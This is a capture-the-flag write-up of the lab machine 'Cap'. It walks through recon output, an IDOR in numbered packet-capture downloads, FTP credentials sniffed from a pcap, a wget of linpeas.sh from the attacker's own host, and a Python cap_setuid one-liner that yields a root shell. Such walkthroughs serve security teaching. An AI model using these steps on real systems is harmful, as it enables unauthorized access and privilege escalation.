


HTB | CAP
1 Introduction
Welcome my write-up for hackthebox machine called CAP.
It's an easy linux box, with a webserver that can capture packets going to the machine.
These packet captures can be downloaded, and is named in a linear order which results in an IDOR.
I did this box together with my buddy Hestenettet, during a trip to a ctf event, couldn't have done it without ya buddy ;)
2 Recon
As always we need to get to know the machine, before we can exploit it. I'll start by running an nmap scan, which shows a webserver running that I will enumerate manually.
2.1 Nmap
Below is the result from the nmap scan.
# Nmap 7.92 scan initiated Fri Oct 1 21:44:13 2021 as: nmap -sV -sC -O -oA nmap 10.129.231.0 Nmap scan report for 10.129.231.0 Host is up (0.051s latency). Not shown: 997 closed tcp ports (reset) PORT STATE SERVICE VERSION 21/tcp open ftp vsftpd 3.0.3 22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA) | 256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA) |_ 256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519) 80/tcp open http gunicorn |_http-title: Security Dashboard | fingerprint-strings: | FourOhFourRequest: | HTTP/1.0 404 NOT FOUND | Server: gunicorn | Date: Fri, 01 Oct 2021 19:44:25 GMT | Connection: close | Content-Type: text/html; charset=utf-8 | Content-Length: 232 | <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN"> | <title>404 Not Found</title> | <h1>Not Found</h1> | <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p> | GetRequest: | HTTP/1.0 200 OK | Server: gunicorn | Date: Fri, 01 Oct 2021 19:44:20 GMT | Connection: close | Content-Type: text/html; charset=utf-8 | Content-Length: 19386 | <!DOCTYPE html> | <html class="no-js" lang="en"> | <head> | <meta charset="utf-8"> | <meta http-equiv="x-ua-compatible" content="ie=edge"> | <title>Security Dashboard</title> | <meta name="viewport" content="width=device-width, initial-scale=1"> | <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico"> | <link rel="stylesheet" href="/static/css/bootstrap.min.css"> | <link rel="stylesheet" href="/static/css/font-awesome.min.css"> | <link rel="stylesheet" href="/static/css/themify-icons.css"> | <link rel="stylesheet" href="/static/css/metisMenu.css"> | <link rel="stylesheet" href="/static/css/owl.carousel.min.css"> | <link rel="stylesheet" href="/static/css/slicknav.min.css"> | <!-- amchar | HTTPOptions: | HTTP/1.0 200 OK | Server: gunicorn | Date: Fri, 01 Oct 2021 19:44:20 GMT | Connection: close | Content-Type: text/html; charset=utf-8 | Allow: OPTIONS, GET, HEAD | Content-Length: 0 | RTSPRequest: | HTTP/1.1 400 Bad Request | Connection: close | Content-Type: text/html | Content-Length: 196 | <html> | <head> | <title>Bad Request</title> | </head> | <body> | <h1><p>Bad Request</p></h1> | Invalid HTTP Version 'Invalid HTTP Version: 'RTSP/1.0'' | </body> |_ </html> |_http-server-header: gunicorn 1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service : SF-Port80-TCP:V=7.92%I=7%D=10/1%Time=61576514%P=x86_64-pc-linux-gnu%r(GetR SF:equest,2A94,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20 SF:Fri,\x2001\x20Oct\x202021\x2019:44:20\x20GMT\r\nConnection:\x20close\r\ SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20193 SF:86\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\">\ SF:n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x2 SF:0<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\ SF:x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<meta\ SF:x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale= SF:1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"image SF:/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x20< SF:link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css\"> SF:\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/fon SF:t-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20 SF:href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20rel= SF:\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20\x2 SF:0<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.min\. SF:css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/c SF:ss/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOption SF:s,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Fri,\x2 SF:001\x20Oct\x202021\x2019:44:20\x20GMT\r\nConnection:\x20close\r\nConten SF:t-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20OPTIONS,\x20GET,\x2 SF:0HEAD\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1\x2 SF:0400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20text SF:/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\x20 SF:\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<body>\ SF:n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Invali SF:d\x20HTTP\x20Version\x20'Invalid\x20HTTP\x20Version:\x20'RTSP SF:/1\.0''\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,189 SF:,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x20F SF:ri,\x2001\x20Oct\x202021\x2019:44:25\x20GMT\r\nConnection:\x20close\r\n SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232\ SF:r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20 SF:Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1> SF:\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20ser SF:ver\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20ch SF:eck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n"); No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ). TCP/IP fingerprint: OS:SCAN(V=7.92%E=4%D=10/1%OT=21%CT=1%CU=34017%PV=Y%DS=2%DC=I%G=Y%TM=6157659 OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS OS:(O1=M54BST11NW7%O2=M54BST11NW7%O3=M54BNNT11NW7%O4=M54BST11NW7%O5=M54BST1 OS:1NW7%O6=M54BST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN OS:(R=Y%DF=Y%T=40%W=FAF0%O=M54BNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N% OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD OS:=S) Network Distance: 2 hops Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . # Nmap done at Fri Oct 1 21:46:37 2021 -- 1 IP address (1 host up) scanned in 144.57 seconds
As you can see, there are three services running on the box.
- vsftpd on port 21
- ssh on port 22
- gunicorn on port 80
2.2 Web enum
Let's first start by running gobuster.
2.2.1 Gobuster
For the dir scan, I used the raft-small-words.txt wordlists found in SecLists.
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/hackthebox/machines/cap ] └─> $ gobuster dir -u "http://cap.htb" -w $REPOS/SecLists/Discovery/Web-Content/raft-small-words.txt 21:52 =============================================================== Gobuster v3.1.0 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart) =============================================================== [+] Url: http://cap.htb [+] Method: GET [+] Threads: 10 [+] Wordlist: /home/c3lphie/repositories/SecLists/Discovery/Web-Content/raft-small-words.txt [+] Negative Status codes: 404 [+] User Agent: gobuster/3.1.0 [+] Timeout: 10s =============================================================== 2021/10/01 21:52:00 Starting gobuster in directory enumeration mode =============================================================== /data (Status: 302) [Size: 208] [--> http://cap.htb/] /ip (Status: 200) [Size: 17360] /capture (Status: 302) [Size: 220] [--> http://cap.htb/data/1] =============================================================== 2021/10/01 21:55:34 Finished ===============================================================
This didn't really give that much, so let us browse around the site manually.
2.2.2 Index
The index page on this box is a dashboard, showing some statistics around security related events on the network.
On the left there is a menu linking to three other sites:
- Security snapshot
- links to
/capture, which redirects to/data/<capture attempt> - IP Config
- links to
/ip, showing the output fromifconfig - Network Status
- links to
/netstat, didn't show up on thegobusterscan, it shows the output fromnetstat
2.2.3 Ipconfig
There isn't anything anything really interesting, there is the possibility of an internal ip leak. So it's worth taking note off.
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.129.231.0 netmask 255.255.0.0 broadcast 10.129.255.255
inet6 fe80::250:56ff:feb9:ed52 prefixlen 64 scopeid 0x20<link>
ether 00:50:56:b9:ed:52 txqueuelen 1000 (Ethernet)
RX packets 92763 bytes 10119817 (10.1 MB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 89056 bytes 24039233 (24.0 MB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
inet 127.0.0.1 netmask 255.0.0.0
inet6 ::1 prefixlen 128 scopeid 0x10<host>
loop txqueuelen 1000 (Local Loopback)
RX packets 1253 bytes 98449 (98.4 KB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 1253 bytes 98449 (98.4 KB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
2.2.4 Network status
Again not really anything major here, not something you would want out there open for everyone, but there isn't anything we can exploit from it.
Active Internet connections (servers and established) Proto Recv-Q Send-Q Local Address Foreign Address State User Inode PID/Program name Timer tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN 1001 34771 - off (0.00/0/0) tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN 101 35322 - off (0.00/0/0) tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN 0 36451 - off (0.00/0/0) tcp 0 0 10.129.231.0:80 10.10.17.47:38404 TIME_WAIT 0 0 - timewait (27.16/0/0) tcp 0 0 10.129.231.0:80 10.10.17.47:38406 TIME_WAIT 0 0 - timewait (27.19/0/0) tcp 0 0 10.129.231.0:80 10.10.17.47:38400 TIME_WAIT 0 0 - timewait (27.96/0/0) tcp 0 0 10.129.231.0:80 10.10.17.47:38410 TIME_WAIT 0 0 - timewait (27.14/0/0) tcp 0 0 10.129.231.0:80 10.10.17.47:38408 TIME_WAIT 0 0 - timewait (27.19/0/0) tcp 0 1 10.129.231.0:46248 1.1.1.1:53 SYN_SENT 101 43699 - on (1.58/1/0) tcp 0 0 10.129.231.0:80 10.10.17.47:38412 ESTABLISHED 1001 43700 - off (0.00/0/0) tcp 0 0 10.129.231.0:80 10.10.17.47:38402 TIME_WAIT 0 0 - timewait (27.19/0/0) tcp6 0 0 :::21 :::* LISTEN 0 34739 - off (0.00/0/0) tcp6 0 0 :::22 :::* LISTEN 0 36462 - off (0.00/0/0) udp 0 0 127.0.0.53:53 0.0.0.0:* 101 35321 - off (0.00/0/0) udp 0 0 0.0.0.0:68 0.0.0.0:* 0 31883 - off (0.00/0/0) udp 0 0 127.0.0.1:48111 127.0.0.53:53 ESTABLISHED 102 43698 - off (0.00/0/0) Active UNIX domain sockets (servers and established) Proto RefCnt Flags Type State I-Node PID/Program name Path unix 2 [ ACC ] SEQPACKET LISTENING 27753 - /run/udev/control unix 2 [ ACC ] STREAM LISTENING 27737 - @/org/kernel/linux/storage/multipathd unix 3 [ ] DGRAM 27721 - /run/systemd/notify unix 2 [ ACC ] STREAM LISTENING 27724 - /run/systemd/private unix 2 [ ACC ] STREAM LISTENING 27726 - /run/systemd/userdb/io.systemd.DynamicUser unix 2 [ ACC ] STREAM LISTENING 27735 - /run/lvm/lvmpolld.socket unix 2 [ ] DGRAM 27738 - /run/systemd/journal/syslog unix 7 [ ] DGRAM 27746 - /run/systemd/journal/dev-log unix 2 [ ACC ] STREAM LISTENING 27748 - /run/systemd/journal/stdout unix 8 [ ] DGRAM 27750 - /run/systemd/journal/socket unix 2 [ ACC ] STREAM LISTENING 31911 - /run/dbus/system_bus_socket unix 2 [ ACC ] STREAM LISTENING 31829 - /var/run/vmware/guestServicePipe unix 2 [ ACC ] STREAM LISTENING 31919 - /run/snapd.socket unix 2 [ ACC ] STREAM LISTENING 31921 - /run/snapd-snap.socket unix 2 [ ACC ] STREAM LISTENING 31923 - /run/uuidd/request unix 2 [ ACC ] STREAM LISTENING 34852 - /run/irqbalance//irqbalance1028.sock unix 2 [ ACC ] STREAM LISTENING 31914 - @ISCSIADM_ABSTRACT_NAMESPACE unix 2 [ ACC ] STREAM LISTENING 31915 - /var/snap/lxd/common/lxd/unix.socket unix 2 [ ACC ] STREAM LISTENING 27284 - /run/systemd/journal/io.systemd.journal unix 3 [ ] STREAM CONNECTED 36338 - /run/systemd/journal/stdout unix 3 [ ] STREAM CONNECTED 35304 - /run/systemd/journal/stdout unix 2 [ ] DGRAM 27288 - unix 3 [ ] STREAM CONNECTED 34860 - unix 3 [ ] STREAM CONNECTED 33137 - /run/systemd/journal/stdout unix 3 [ ] STREAM CONNECTED 35222 - /run/dbus/system_bus_socket unix 3 [ ] STREAM CONNECTED 31697 - /run/systemd/journal/stdout unix 3 [ ] STREAM CONNECTED 35320 - /run/dbus/system_bus_socket unix 3 [ ] STREAM CONNECTED 35225 - unix 3 [ ] STREAM CONNECTED 34861 - unix 3 [ ] STREAM CONNECTED 34865 - /run/dbus/system_bus_socket unix 3 [ ] STREAM CONNECTED 36144 - /run/systemd/journal/stdout unix 2 [ ] DGRAM 35307 - unix 2 [ ] DGRAM 34845 - unix 2 [ ] DGRAM 31704 - unix 2 [ ] DGRAM 28191 - unix 3 [ ] DGRAM 28194 - unix 3 [ ] STREAM CONNECTED 35221 - unix 2 [ ] DGRAM 34859 - unix 2 [ ] DGRAM 31706 - unix 3 [ ] STREAM CONNECTED 36337 - unix 3 [ ] DGRAM 28193 - unix 3 [ ] STREAM CONNECTED 35319 - unix 3 [ ] STREAM CONNECTED 35226 - unix 3 [ ] STREAM CONNECTED 34831 - unix 3 [ ] STREAM CONNECTED 36143 - unix 3 [ ] STREAM CONNECTED 33918 - /run/systemd/journal/stdout unix 3 [ ] STREAM CONNECTED 31463 - /run/systemd/journal/stdout unix 3 [ ] STREAM CONNECTED 35711 - /run/systemd/journal/stdout unix 3 [ ] STREAM CONNECTED 30565 - unix 3 [ ] STREAM CONNECTED 36154 2207/sh unix 3 [ ] STREAM CONNECTED 33759 - unix 3 [ ] STREAM CONNECTED 33761 - /run/systemd/journal/stdout unix 3 [ ] STREAM CONNECTED 35188 - /run/dbus/system_bus_socket unix 3 [ ] STREAM CONNECTED 29677 - unix 3 [ ] STREAM CONNECTED 31698 - /run/systemd/journal/stdout unix 3 [ ] STREAM CONNECTED 35199 - /run/dbus/system_bus_socket unix 3 [ ] STREAM CONNECTED 33997 - /run/systemd/journal/stdout unix 3 [ ] STREAM CONNECTED 27576 - /run/systemd/journal/stdout unix 3 [ ] STREAM CONNECTED 34864 - /run/dbus/system_bus_socket unix 3 [ ] STREAM CONNECTED 33915 - unix 3 [ ] STREAM CONNECTED 31916 - unix 2 [ ] DGRAM 35180 - unix 3 [ ] STREAM CONNECTED 31696 - unix 3 [ ] STREAM CONNECTED 27406 - unix 3 [ ] DGRAM 27722 - unix 2 [ ] DGRAM 35713 - unix 2 [ ] DGRAM 36863 - unix 3 [ ] STREAM CONNECTED 34862 - /run/dbus/system_bus_socket unix 3 [ ] DGRAM 27482 - unix 3 [ ] DGRAM 27723 - unix 3 [ ] STREAM CONNECTED 35198 - unix 3 [ ] DGRAM 31840 - unix 3 [ ] STREAM CONNECTED 35187 - unix 3 [ ] STREAM CONNECTED 31917 - unix 3 [ ] STREAM CONNECTED 27471 - unix 3 [ ] STREAM CONNECTED 35710 - unix 3 [ ] STREAM CONNECTED 33917 - /run/systemd/journal/stdout unix 3 [ ] STREAM CONNECTED 31462 - unix 3 [ ] STREAM CONNECTED 32580 - unix 3 [ ] STREAM CONNECTED 34863 - /run/dbus/system_bus_socket unix 3 [ ] STREAM CONNECTED 27575 - /run/systemd/journal/stdout unix 3 [ ] DGRAM 31838 - unix 2 [ ] DGRAM 27475 - unix 3 [ ] STREAM CONNECTED 36155 - /run/systemd/journal/stdout unix 3 [ ] DGRAM 31839 - unix 3 [ ] DGRAM 27481 - unix 3 [ ] STREAM CONNECTED 33136 - unix 3 [ ] DGRAM 31841 - unix 3 [ ] DGRAM 27479 - unix 3 [ ] STREAM CONNECTED 34392 - unix 3 [ ] STREAM CONNECTED 31934 - unix 3 [ ] STREAM CONNECTED 33996 - unix 2 [ ] DGRAM 28259 - unix 3 [ ] STREAM CONNECTED 33206 - unix 3 [ ] STREAM CONNECTED 29204 - /run/systemd/journal/stdout unix 3 [ ] DGRAM 27480 - unix 3 [ ] STREAM CONNECTED 33207 - /run/systemd/journal/stdout unix 2 [ ] DGRAM 31835 -
Still definetly note it down, it is still an information leak! And could be used when pivoting to other networks.
2.2.5 Pcap scanning
The /data/<capture attempt> endpoint, shows statistisc from a packet capture of 5 seconds.

It also gives us the possibility of downloading the .pcap file.
The url for this page increments by 1 for each packet capture.
Let's try and see if we can find captures which might contain interesting data. This btw is called an IDOR, or insecure direct object reference.
Looks like we might have gotten something interesting here, let's download this capture and look at it in wireshark.
3 Exploitation
3.1 Pcap analysis
The pcap file retreived from the IDOR contains a fair amount of packets, to look closer at those open up wireshark.
 Scrolling down shows an FTP stream, instead of looking at each packet individuallly, right click the stream, choose follow then TCP stream. Which gives the following exchange:
220 (vsFTPd 3.0.3) USER nathan 331 Please specify the password. PASS Buck3tH4TF0RM3! 230 Login successful. SYST 215 UNIX Type: L8 PORT 192,168,196,1,212,140 200 PORT command successful. Consider using PASV. LIST 150 Here comes the directory listing. 226 Directory send OK. PORT 192,168,196,1,212,141 200 PORT command successful. Consider using PASV. LIST -al 150 Here comes the directory listing. 226 Directory send OK. TYPE I 200 Switching to Binary mode. PORT 192,168,196,1,212,143 200 PORT command successful. Consider using PASV. RETR notes.txt 550 Failed to open file. QUIT 221 Goodbye.
And we have a username and password for the machine:
nathan:Buck3tH4TF0RM3!
Now that we have a user let's connect to the machine and get user flag!
3.2 User flag
Let's connect with ssh:
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/hackthebox/machines/cap ] └─> $ ssh nathan@10.129.233.146 21:33 nathan@10.129.233.146's password: Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64) * Documentation: https://help.ubuntu.com * Management: https://landscape.canonical.com * Support: https://ubuntu.com/advantage System information as of Mon Oct 4 19:34:16 UTC 2021 System load: 0.0 Processes: 224 Usage of /: 36.7% of 8.73GB Users logged in: 0 Memory usage: 21% IPv4 address for eth0: 10.129.233.146 Swap usage: 0% => There are 2 zombie processes. * Super-optimized for small spaces - read how we shrank the memory footprint of MicroK8s to make it the smallest full K8s around. https://ubuntu.com/blog/microk8s-memory-optimisation 63 updates can be applied immediately. 42 of these updates are standard security updates. To see these additional updates run: apt list --upgradable The list of available updates is more than a week old. To check for new updates run: sudo apt update Last login: Thu May 27 11:21:27 2021 from 10.10.14.7 nathan@cap:~$
And read the flag:
nathan@cap:~$ ls user.txt nathan@cap:~$ cat user.txt e2da0████████████████████████████
4 Priv esc
Now we need to escalate our privileges inorder to get root!
First i'll upload linPEAS.sh and execute it.
Todo this i created a python http server in a folder with linpeas.sh in it.
python -m http.server
Then on the box I used wget to download it:
nathan@cap:/dev/shm$ wget http://10.10.17.47:8000/linpeas.sh --2021-10-04 19:41:54-- http://10.10.17.47:8000/linpeas.sh Connecting to 10.10.17.47:8000... connected. HTTP request sent, awaiting response... 200 OK Length: 325864 (318K) [application/x-sh] Saving to: ‘linpeas.sh’ linpeas.sh 100%[=====================================================================================================>] 318.23K 253KB/s in 1.3s 2021-10-04 19:41:56 (253 KB/s) - ‘linpeas.sh’ saved [325864/325864]
You can see a snippet results of linpeas.sh below:
[+] Capabilities [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities Current capabilities: Current: = CapInh: 0000000000000000 CapPrm: 0000000000000000 CapEff: 0000000000000000 CapBnd: 0000003fffffffff CapAmb: 0000000000000000 Shell capabilities: 0x0000000000000000= CapInh: 0000000000000000 CapPrm: 0000000000000000 CapEff: 0000000000000000 CapBnd: 0000003fffffffff CapAmb: 0000000000000000 Files with capabilities: /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip /usr/bin/ping = cap_net_raw+ep /usr/bin/traceroute6.iputils = cap_net_raw+ep /usr/bin/mtr-packet = cap_net_raw+ep /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
If you look closely, you'll see that python has setuid capabilities, which we can use to gain root access with the following command:
nathan@cap:~$ python3.8 -xc "import os; os.setuid(0); os.system('/bin/bash')"
root@cap:~#
4.1 Root flag
Now all we need to do is read the flag:
root@cap:~# cd /root/ root@cap:/root# ls root.txt snap root@cap:/root# cat root.txt 6931████████████████████████████